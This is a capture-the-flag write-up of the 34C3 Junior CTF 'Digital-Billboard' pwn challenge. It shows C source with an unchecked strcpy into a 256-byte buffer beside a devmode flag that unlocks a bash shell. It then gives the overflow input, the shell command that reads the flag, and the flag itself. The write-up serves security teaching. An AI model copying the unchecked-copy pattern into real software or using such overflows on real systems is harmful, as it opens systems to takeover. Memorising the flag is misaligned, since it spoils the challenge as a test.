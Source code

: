 Digital-Billboard -easy
========
**Category**: pwn  **Points**: 41

Challenge Description
------
```
We bought a new Digital Billboard for CTF advertisement:
```
We were given the following codes
```C
#ifndef _MYLIB_H_
#define _MYLIB_H_

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#include "module.h"

const char* name = "Digital Billboard";
const char* info =  "We bought a new digital billboard for CTF advertisement.\n"
                    "\n"
                    "Type \"help\" for help :)";


struct billboard {
    char text[256];
    char devmode;
};
struct billboard bb = { .text="Placeholder", .devmode=0 };

void set_text(int argc, char* argv[]) {
    strcpy(bb.text, argv[1]);
    printf("Successfully set text to: %s\n", bb.text);
    return;
}

void shell(int argc, char* argv[]) {
    if (bb.devmode) {
        printf("Developer access to billboard granted.\n");
        system("/bin/bash");
    } else {
        printf("Developer mode disabled!\n");
    }
    return;
}

void help(int argc, char* argv[]) {
    printf("This is helpful.\n");
    return;
}


void initialize_module(module_t* module, registration_function register_command) {
    
    module->name = name;
    module->info = info;

    register_command("set_text", "<text>\t\t", "Set the text displayed on the board", set_text);
    register_command("devmode", "\t\t", "Developer mode", shell);

   
    strcpy(bb.text, "Welcome to 34C3 JUNIOR CTF");
}

#endif
```

Solution
---------
Okay I didn't quite understand the C codes, it's just that this few lines interest me

```C
struct billboard {
    char text[256];
    char devmode;
};

```

This obviously indicates a buffer overflow attack.

```
set_text AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

We can now enter devmode, finding a flag.txt sitting right at the directory

```
cat flag.txt
34C3_w3lc0me_t0_34c3_ctf_H4ve_fuN
```

Flag: 34C3_w3lc0me_t0_34c3_ctf_H4ve_fuN
